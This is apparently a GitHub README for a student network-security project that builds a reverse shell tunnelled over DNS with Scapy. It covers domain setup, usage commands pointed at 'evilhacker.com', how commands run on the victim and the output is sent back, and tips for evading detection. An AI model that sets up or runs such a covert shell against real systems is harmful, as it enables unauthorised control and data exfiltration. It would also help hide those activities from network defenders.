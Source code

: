 # Reverse Shell using DNS tunnelling

Written in Scapy for my network security module :)

## Usage

Make sure to run the server first.

### Server

1. Purchase a domain (for example, `evilhacker.com`)
2. Set an `A` record for `*.evilhacker.com` and point to server IP address
3. Set an `NS` record for `ns1.evilhacker.com` and point to `ns1.evilhacker.com`

```sh
$ ./dns_server.py -h
usage: dns_server.py [-h] [-i INTERFACE] -k KEY domain

DNS Reverse Shell Server

positional arguments:
  domain                Domain to connect to

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface to use
  -k KEY, --key KEY     Password to use

# ./dns_server.py -k securepassword evilhacker.com
```

Program will now listen on stdin for commands

---

### Client

```sh
$ ./dns_client.py -h
usage: dns_client.py [-h] [-i INTERFACE] [-I INTERVAL] [-p PULSE] [-t TIMEOUT] -k KEY domain

DNS Reverse Shell Client

positional arguments:
  domain                Domain to connect to

optional arguments:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface to use
  -I INTERVAL, --interval INTERVAL
                        Interval between sending DNS packets
  -p PULSE, --pulse PULSE
                        How often to pulse the server in seconds (Lower number means faster response time)
  -t TIMEOUT, --timeout TIMEOUT
                        How long it takes to recover from lost packet in seconds (Lower number means faster recover time)
  -k KEY, --key KEY     Password to use

# ./dns_client.py -k securepassword evilhacker.com
```

## How it works

Every few seconds, the client program sends a DNS A record query “pulse.evilhacker.com” and listens for any commands that the server gives. When a shell command is received, the subdomain is base64 decoded and runs on the victim machine. The standard output or error is then encoded in base64 and fragmented into multiple parts as there is a maximum length for the domain. The fragmented data is then sent, with the “z” flag in the DNS packet used to indicate the last packet from the command output.

The server program sniffs and filters out only DNS traffic on the indicated network interface. It captures the DNS queries from the server, strips out the subdomain, reconstructs the fragmented base64 data and prints it to terminal output. Similar to the client program, any command that is longer than the maximum length allowed for the domain is fragmented with the “z” flag used to indicate the last packet from the command.

However, there are certain caveats to this program. Due to the nature of UDP, it is possible that some data can be lost in the middle of a transaction. This is very apparent when dealing with slow networks. An increased interval between each packet sent (more information in the program usage) can boost the reliability and covertness of the reverse shell.

### Improvements

Randomising the subdomain length can also be used to throw off automated network traffic analysis tools as it may be filtering for subdomains within a certain length at the cost of network traffic overhead.

Randomising the pulse and intervals between each packet sent can prevent network administrators or automated network traffic analysis tools from detection and correlation between packets. However, this significantly reduces the responsiveness of the reverse shell.
